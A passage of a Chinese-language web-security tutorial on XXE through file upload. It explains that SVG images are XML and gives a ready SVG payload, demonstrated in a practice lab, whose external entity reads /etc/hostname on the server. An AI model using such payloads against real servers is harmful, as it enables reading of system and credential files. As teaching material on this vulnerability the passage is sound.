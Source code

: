 [![](assets/1706060044-de70d2ff0edd4d018bc03208703a6367.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123132815-35169614-b9b0-1.png)

#### 文件上传 (思路)

有些应用程序允许用户上传文件，然后在服务器端进行处理，一些常见的文件格式使用 XML 或包含 XML 子组件，基于 XML 的格式示例有 DOCX 等办公文档格式和 SVG 等图像格式，例如：应用程序可能允许用户上传图像并在上传后在服务器上处理或验证这些图像，即使应用程序希望接收像 PNG 或 JPEG 这样的格式，所使用的图像处理库也可能支持 SVG 图像，由于 SVG 格式使用 XML，攻击者可以提交恶意的 SVG 图像，从而达到 XXE 漏洞的隐藏攻击表面  
靶场演示：  
查看文章并上传文件 xxe.svg，文件内容如下

```plain
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

[![](assets/1706060044-017d6ba5eb0cfa43f7b4f0449caf3e5f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123132916-59e826b0-b9b0-1.png)  
查看评论  
[![](assets/1706060044-590d5be1b1c746fdbd9eadc8dcf539bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123132927-607c4f9c-b9b0-1.png)
